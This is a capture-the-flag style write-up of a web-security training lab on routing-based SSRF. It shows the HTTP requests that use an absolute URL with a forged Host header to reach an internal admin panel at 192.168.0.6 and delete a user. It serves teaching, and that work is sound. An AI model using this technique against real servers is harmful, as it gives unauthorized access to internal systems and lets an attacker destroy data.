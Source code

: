 # Lab: SSRF via flawed request parsing

Description :
This lab is vulnerable to routing-based SSRF due to its flawed parsing of the request's intended host. You can exploit this to access an insecure intranet admin panel located at an internal IP address.

End goal :
To solve the lab, access the internal admin panel located in the `192.168.0.0/24` range, then delete the user `carlos`.

Analysis:

- manipulating host header direct -> 403 Forbidden
- we can inject arbitrary data via port
- when we double the host header both be identical
- when we use absolute URL , we can inject arbitrary Host value

    ```Text
    req
    GET https://0aed003a036763d7846f3ba200f0000c.web-security-academy.net HTTP/2
    Host: 127.0.0.1
    
    res
    HTTP/2 504 Gateway Timeout
    Server Error: Gateway Timeout (3) connecting to 127.0.0.1
    ```

- sending this request -> 302 Found

    ```Text
    GET https://0aed003a036763d7846f3ba200f0000c.web-security-academy.net HTTP/2
    Host: 192.168.0.6
    ```

- we can send our malicoius request using the following  formate

    ```text
    POST https://0aed003a036763d7846f3ba200f0000c.web-security-academy.net/admin/delete HTTP/2
    Host: 192.168.0.6
    ...

    csrf=qP8rdeJQVNx4ixGbYLJSdKq3MhueML83&username=carlos
    ```
